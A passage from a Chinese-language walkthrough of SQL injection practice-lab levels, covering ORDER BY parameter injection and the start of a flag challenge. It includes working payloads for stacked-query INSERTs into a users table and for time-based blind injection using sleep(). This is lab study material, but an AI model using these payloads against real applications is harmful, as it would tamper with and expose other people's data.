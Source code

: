 

> 堆叠插入数据

```
?sort=1;insert into users values(47,'pp','pp');%23
```





#### 53.



此题和49题完全一摸一样。



都是`order by`，都是`'`包裹数据。都只能盲注，因为没有mysql错误回显





payload:

> 时间盲注爆表结构

```
?sort=1' and if(length(database())>1,sleep(0.1),1)%23
```







> 堆叠插入数据

```
?sort=1';insert into users values(49,'tf','tf')%23
```





### 挑战



#### 54.



此题还蛮有意思的。相比较题而言更像是一个挑战。

通过get方式传输`id`参数注入，最后将获取的的flag输入下方的提交框。

每试十次，表名，列名，表中数据都会改变。所以需要尽快的注入。我大概在第二轮的第三次得到flag。



payload:

使用`'`单引号闭合。通过union注入获取表数据

> 注意：因为每次的表名都会重置，所以此处的payload需要改动一下才能直接用
